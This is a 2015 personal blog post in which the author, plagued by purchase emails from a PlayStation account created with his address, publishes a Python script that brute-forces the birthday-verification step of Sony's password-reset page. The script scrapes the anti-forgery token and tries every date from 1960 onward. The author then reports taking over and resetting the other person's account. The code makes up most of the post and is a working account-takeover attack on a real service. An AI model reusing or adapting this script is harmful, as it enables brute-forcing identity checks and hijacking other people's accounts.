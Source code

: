 ```yaml
---
id: 770
title: Sony Entertainment Network spam stopper
date: 2015-09-13T00:53:20+00:00
author: fvicente
layout: post
guid: http://www.alfersoft.com.ar/blog/?p=770
permalink: /2015/09/13/sony-entertainment-network-spam-stopper/
categories:
  - Programming FAQ
  - Software Development
tags:
  - network
  - playstation
  - python
  - sony
  - spam
comments: true
---
```

I don&#8217;t have a Sony PlayStation. But someone nicknamed &#8220;STRONDHA&#8221; has one, and somehow he managed to use my personal e-mail address to create his account. Oddly, Sony didn&#8217;t send any e-mail asking to confirm my e-mail as the owner of the account, and starting spamming every time this person bought a game in their virtual store.

<!--more-->

[<img src="{{ site.url }}/images/2015-09-13-12.27.56-am.png" alt="Sony sending unwanted e-mails"/>]({{ site.url }}/images/2015-09-13-12.27.56-am.png)

## Stop it

My name is too common, and is not the first time I get subscribed to some site I didn&#8217;t ask to. Sometimes, I just click on the &#8220;unsubscribe&#8221; link, or even on &#8220;forgot my password&#8221; and do whatever I need to stop receiving undesired e-mails.

So, I tried the &#8220;forget my password&#8221; trick with Sony, and after some captcha validation, I received an e-mail with a link. The problem is that they required the birthday in order to reset the password, and of course, I don&#8217;t know the birthday of the person that created the account.

Enters python script to try every possible birthday date from 1/1/1960 until today.

### Notes

* You will need to change the base URL to whatever you received in the password reset e-mail from Sony

* You might need to change the &#8216;wrong date&#8217; message to match your local language &#8211; mine is in portuguese (just try any date on the browser, and -unless you&#8217;re so lucky to select the actual birth date- copy and paste the error message on the code)

{% highlight python %}
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import urllib
import urllib2
import datetime
import sys
import time

from HTMLParser import HTMLParser

# create a subclass and override the handler methods
class MyHTMLParser(HTMLParser):
    def handle_starttag(self, tag, attrs):
        attrs_dict = dict(attrs)
        if tag == "input" and attrs_dict.get('name', '') == "blah_token":
            setattr(self, "value", attrs_dict.get("value"))

    def handle_endtag(self, tag):
        pass

    def handle_data(self, data):
        pass


values = {
    'struts.token.name' : 'blah_token',
    'blah_token': '',
    'verifyType': 'dob',
    'account.dob': '1',
    'account.mob': '1',
    'account.yob': '1980',
}

#
# IMPORTANT: paste the URL received in the change password e-mail in the url variable, the url looks something like this:
# https://account.sonyentertainmentnetwork.com/reg/account/validate-forgot-password-token!input.action?token=***some token here***&request_locale=pt_BR&service-entity=np
#
url = '*** PASTE URL HERE ***'
url_post = "https://account.sonyentertainmentnetwork.com/liquid/reg/account/forgot-password-verify-identity.action"

s = requests.session()
r = s.get(url)
date = datetime.datetime(1960, 1, 1, 1, 1, 1)
today = datetime.datetime.today()
while date < today: 
    date += datetime.timedelta(days=1)
    # find token
    parser = MyHTMLParser()
    parser.feed(r.text)
    if not hasattr(parser, "value"):
        print "!!!!! FOUND %s" % date.isoformat()
        break
    val = getattr(parser, "value")
    print "blah_token = %r" % val
    values['blah_token'] = val
    values['account.dob'] = str(date.day)
    values['account.mob'] = str(date.month)
    values['account.yob'] = str(date.year)
    r = s.post(url_post, values)
    #
    # IMPORTANT: The message is in portuguese, you will need to change this message to match your language
    #
    if u'A data de nascimento inserida é inválida. Verifique a data e tente novamente.' in r.text:
        print "birthday is not %s" % date.isoformat()
    else:
        print "!!!!! FOUND %s" % date.isoformat()
        break
    sys.stdout.flush()
{% endhighlight %}

[See sony.py on gist](https://gist.github.com/fvicente/75980d0d00d759b06e50)

STHRONDHA was born on January 23 of 1983 (or at least that&#8217;s the date he choose when creating his account). So, now I was able to change the password and stop receiving e-mails from Sony. I guess he will need to create a new account now muahahaha.
